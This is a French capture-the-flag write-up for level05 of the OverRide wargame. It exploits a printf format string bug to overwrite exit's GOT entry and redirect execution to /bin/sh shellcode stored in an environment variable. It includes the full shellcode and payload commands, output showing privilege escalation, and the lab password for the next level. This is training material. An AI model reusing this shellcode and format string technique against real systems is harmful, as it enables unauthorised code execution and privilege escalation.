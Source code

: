 En desassemblant le code on voit qu'il ya la possibilité d'analyser la memoire avec une faille format string sur le printf.

Ce que l'on va faire c'est réecrire l'adresse de la fonction exit pour qu'elle pointe sur notre shellcode que l'on aura mis dans l'environnement

```bash
level05@OverRide:~$ export SC=$(python -c "print('\x90' * 42 + '\x31\xc0\x31\xd2\x31\xdb\x31\xc9\x68\x2f\x73\x68\x31\x80\x74\x24\x03\x31\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80')")
``

L'adresse -> 0xffffdea7

L'adresse de exit dans le GOT -> 0x80497e0

On construis notre payload

```bash
level05@OverRide:~$ (python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%56991d' + '%10\$n' + '%8536d' + '%11\$n')"; cat) | ./level05
...
...
...
...
4415680
id
uid=1005(level05) gid=1005(level05) euid=1006(level06) egid=100(users) groups=1006(level06),100(users),1005(level05)
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
